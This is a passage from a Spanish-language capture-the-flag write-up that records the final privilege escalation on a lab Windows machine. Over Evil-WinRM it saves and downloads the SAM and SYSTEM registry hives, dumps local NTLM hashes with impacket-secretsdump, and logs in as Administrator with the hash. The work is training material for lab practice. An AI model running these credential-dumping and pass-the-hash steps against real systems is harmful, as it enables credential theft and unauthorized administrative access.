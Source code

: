 ~~~

*Evil-WinRM* PS C:\> reg save hklm\system C:\temp\system.hive
The operation completed successfully.

*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp> ls

    Directory: C:\temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/3/2025   5:54 PM          49152 sam.hive
-a----         10/3/2025   5:54 PM       18518016 system.hive


*Evil-WinRM* PS C:\temp> download sam.hive
                                        
Info: Downloading C:\temp\sam.hive to sam.hive
                                        
Info: Download successful!
*Evil-WinRM* PS C:\temp> download system.hive
                                        
Info: Downloading C:\temp\system.hive to system.hive
                                        
Info: Download successful!
*Evil-WinRM* PS C:\temp> 
~~~
Al pasar todo ello a la maquina atacante, se puede usar impacket para descifrar los hash ntml
~~~bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b<SNIP>41:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
~~~
Con esto, ya podemos intentar iniciar sesion por winrm como administrator.

---

## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Iniciando sesion con winrm y el hash NTLM obtenida se puede ver la root flag, que es el objetivo de la maquina.
~~~powershell
evil-winrm -i 10.10.11.35 -u 'administrator' -H 2b<SNIP>41
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
ls
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls
ty

    Directory: C:\Users\Administrator\desktop

~~~
